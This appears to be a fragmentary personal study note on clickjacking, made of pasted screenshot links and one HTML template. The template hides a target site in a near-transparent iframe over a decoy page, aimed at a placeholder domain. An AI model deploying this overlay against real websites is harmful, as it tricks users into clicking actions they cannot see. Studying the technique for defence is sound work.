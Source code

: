 ![[Pasted image 20250205222714.png]]
![[Pasted image 20250205222915.png]]
![[Pasted image 20250205222936.png]]
```html
<head> 
<style> 
	#target_website { position:relative; width:128px; height:128px; opacity:0.00001; z-index:2; } 
	#decoy_website { position:absolute; width:300px; height:400px; z-index:1; } </style> 
</head>
... 
<body>
	<div id="decoy_website"> ...decoy web content here... </div> <iframe id="target_website" src="https://vulnerable-website.com"> </iframe>
</body>
```
![[Pasted image 20250205224005.png]]

![[Pasted image 20250206131713.png]]
![[Pasted image 20250206133131.png]]
![[Pasted image 20250206225638.png]]
![[Pasted image 20250206225733.png]]
![[Pasted image 20250206225848.png]]
![[Pasted image 20250206225944.png]]
